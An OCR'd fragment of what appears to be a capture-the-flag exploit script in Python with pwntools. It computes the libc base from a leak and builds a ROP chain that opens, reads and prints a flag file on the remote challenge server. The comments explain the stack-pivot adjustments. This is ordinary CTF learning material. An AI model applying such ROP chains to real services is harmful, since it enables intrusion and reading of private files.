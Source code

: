 ```python  
log.info(f'{leak_func} @ {hex(libc_leak)}')  
   libc.address = libc_leak - libc.symbols[leak_func]  
log.info(f'libc base @ {hex(libc.address)}')  
  
   # Some useful gadgets from libc  
   mov_ptrrdx_eax = libc.address + 0x00000000000374b1 # mov dword ptr [rdx],
eax; ret;  
   syscall_ret = libc.address + 0x0000000000066229 # syscall; ret;

   # ---------------------------------------------------- #  
   # -------------- open('/pwn/flag.txt') --------------- #  
   # ------------- read(flagfd, mem, len) --------------- #  
   # ------------- write(stdout, mem, len) -------------- #  
   # ---------------------------------------------------- #

   rop = ROP(exe)

   strings_addr = exe.bss(400) # a place far enough from our ropchain

   # 3 POPs to adjust previous stack pivoting  
   # The pop_rsp gadget was also popping other 3 registers!  
   rop.raw(0)  
   rop.raw(0)  
   rop.raw(0)

   # Read the '/pwn/flag.txt' string from stdin  
   rop.read(0, strings_addr, len(flag))

   # Execute the open('/pwn/flag.txt') libc function (this is why we needed
libc btw)  
   rop.raw(pop_rdi)  
   rop.raw(strings_addr)  
   rop.raw(pop_rsi)  
   rop.raw(0x000) # O_RDONLY  
   rop.raw(0) # pop_rsi pops 2 registers!  
   rop.raw(libc.symbols['open'])

   # The followings instructions were used to check if the file descriptor  
   # from whom we were trying to read was correct. We also determined this by  
   # debugging the exploit with gdb in an ubuntu 20.04 container (which was
the  
   # one used in the challenge, as the description reported).  
   #  
   # We determined that the correct fd was 5  
   #  
   # rop.raw(pop_rdx)  
   # rop.raw(exe.bss(600))  
   # rop.raw(mov_ptrrdx_eax)  
   # rop.puts(exe.bss(600))

   # Read into our address the flag...  
   rop.read(5, strings_addr, 50)

   # ...and then print it out  
   rop.puts(exe.bss(400))  
  
log.info('# ================ ROP 2 ================= #')  
log.info(rop.dump())

   # Send second ropchain  
   io.sendlineafter('pwn dis shit', rop.chain())

   # Send the flag filename ('/pwn/flag.txt' on the server)  
```